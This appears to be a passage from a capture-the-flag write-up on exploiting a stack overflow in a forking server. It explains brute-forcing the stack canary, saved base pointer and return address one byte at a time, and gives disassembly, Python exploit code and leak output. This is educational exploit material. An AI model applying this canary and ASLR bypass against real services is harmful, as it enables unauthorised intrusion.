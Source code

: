 **Leaking the return address is a little bit more difficult**. Because we start by overriding the least significant byte, the program might return to some other location in the `main`, it could be another `fork` or `accept` and make things be a little less predictible for us. <br>
But - since the randomization is only effective for the least 12 bits of the return address, the first byte will definitely not change:

The return address from `check_username` is:
```
   0x0000555555554eca <+561>:	call   0x555555554b6f <check_username>
   0x0000555555554ecf <+566>:	test   eax,eax
```

So it would always end with `0xcf`!

```python
def leak_n_bytes(prefix, n):
    payload = prefix
    for i in range(n):
        payload = leak_next_byte(payload)
    return payload[-n:]

def main():
    payload = "davide"
    payload += "B" * (1032 - len(payload))

    print "Leaking canary"
    canary = leak_n_bytes(payload, 8)
    print "Leaking old RBP"
    old_rbp = leak_n_bytes(payload + canary, 8)
    print "Leaking return address"
    ret_addr = leak_n_bytes(payload + canary + old_rbp + chr(ord("\xcf") ^ 0xd), 7)
```

```
$ python exploit.py 
Leaking canary
Found: 0xd
Found: 0xc0
Found: 0x2a
Found: 0xf7
Found: 0x4c
Found: 0xf6
Found: 0x34
Found: 0x5d
Leaking old RBP
Found: 0x5d
Found: 0xf6
Found: 0x2b
Found: 0xad
Found: 0xf2
Found: 0x72
Found: 0xd
Found: 0xd
Leaking return address
Found: 0x13
Found: 0xe9
Found: 0x6e
Found: 0xad
Found: 0x58
Found: 0xd
Found: 0xd
Found: 0x0
```
